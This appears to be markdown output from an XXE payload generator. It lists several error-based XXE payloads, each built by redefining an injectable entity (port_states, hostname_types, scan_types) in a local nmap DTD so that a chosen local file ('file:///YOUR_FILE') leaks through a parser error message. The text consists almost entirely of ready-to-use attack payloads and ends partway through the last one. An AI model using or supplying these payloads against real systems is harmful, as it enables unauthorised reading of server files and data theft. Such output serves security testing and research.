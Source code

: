 **Injectable entity:** `port_states`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd">

    <!ENTITY % port_states '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd`

**Injectable entity:** `hostname_types`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd">

    <!ENTITY % hostname_types '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd`

**Injectable entity:** `scan_types`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/nmap/nmap.dtd">

    <!ENTITY % scan_types '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

```